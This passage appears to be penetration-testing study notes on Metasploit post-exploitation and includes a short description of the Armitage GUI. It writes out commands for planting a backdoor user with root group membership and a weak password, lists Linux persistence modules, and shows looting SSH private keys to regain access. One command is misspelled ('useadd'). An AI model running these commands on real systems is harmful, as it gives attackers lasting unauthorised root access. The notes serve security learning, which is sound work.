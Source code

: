 ```bash
msf6> sessions -u 3
msf6> sessions 4
```

Manual backdoor.

```bash
meterpreter> shell
/bin/bash -i
root@victim-1> useadd -m ftp -s /bin/bash
root@victim-1> passwd ftp  # password1234
root@victim-1> usermod -aG root ftp
root@victim-1> usermod -u 15 ftp
# CTRL+C
```

Backdoor modules :

* exploit/linux/local/apt\_package\_manager\_persistence
* exploit/linux/local/autostart\_persistence
* exploit/linux/local/bash\_profile\_persistence
* exploit/linux/local/cron\_persistence
* exploit/linux/local/rc\_local\_persistence
* exploit/linux/local/service\_persistence
* post/linux/manage/sshkey\_persistence
* exploit/linux/local/yum\_package\_manager\_persistence

```bash
msf6> use post/linux/manage/sshkey_persistence
msf6> set createsshfolder true
msf6> run

msf6> loot
msf6> cat /root/.msf4/loot/20230803140026_linuxpersistenc_192.163.200.3_id_rsa_226018.txt
```

Copy/paste the private SSH key in the attacker host and connect it through SSH.

### Armitage

* Armitage is a free Java based GUI front-end for the Metasploit Framework developed by Raphael Mudge and is used to simplify network discovery, exploitation and post exploitation.
* Armitage provides you with the following functionality :
  * Visualize targets
  * Automate port scanning
  * Automate exploitation
  * Automate post exploitation
* Armitage requires the MSF database and the Metasploit backend services to be enabled and running in order to function correctly.
* Armitage comes pre-packaged with Kali Linux and other penetration testing distribution.
